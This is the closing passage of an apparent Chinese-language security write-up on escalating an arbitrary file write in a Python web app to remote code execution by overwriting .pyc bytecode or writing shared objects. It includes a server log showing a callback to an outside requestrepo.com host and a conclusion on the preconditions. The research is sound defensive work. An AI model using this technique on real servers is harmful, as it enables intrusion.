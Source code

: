 ![](https://mmbiz.qpic.cn/mmbiz_png/RRrILrELHY94O7aOKAZsSdTfQng1BrfJ190kWfv0WhDENiaHOAwsgpXNmRkOkUaR5VSUGeicqRsiajVLHdIZHibXlw/640?wx_fmt=png&from=appmsg "")  
  
服务器：  
```
[...]
172.18.0.1 - - [28/Apr/2025 09:38:53] "POST /upload HTTP/1.1" 200 -
172.18.0.1 - - [28/Apr/2025 09:38:53] "POST /upload HTTP/1.1" 200 -
172.18.0.1 - - [28/Apr/2025 09:38:54] "POST /upload HTTP/1.1" 200 -
 * Detected change in '/app/anything.pyc', reloading
 * Restarting with stat
Connecting to 48jcuj6n.requestrepo.com (130.61.138.67:80)
writing to stdout
written to stdout
 * Debugger is active!
 * Debugger PIN: 192-854-631
```  
## 结论  
  
尽管通过写入共享对象文件或覆盖字节码文件实现Python"脏"AFW到RCE很可能需要白盒方法，但如果你只能写入源代码目录（如/app）中的文件，并且Web应用程序对文件名有严格的规定（例如不能使用下划线(_)字符），它仍然非常强大。  
  
如果应用程序没有任意文件读取漏洞，我们需要泄露/暴力破解使用的是哪个Python版本、动态导入的模块名称和/或导入模块的文件大小。我们也可以采用更简单的方法，写入共享对象文件来实现RCE。  
  
未来，对于字节码文件覆盖，也许我们可以找到一种方法来减少黑盒情况下的暴力破解，并减少对任意文件读取漏洞的依赖以获取所有必要的信息。  
  
  
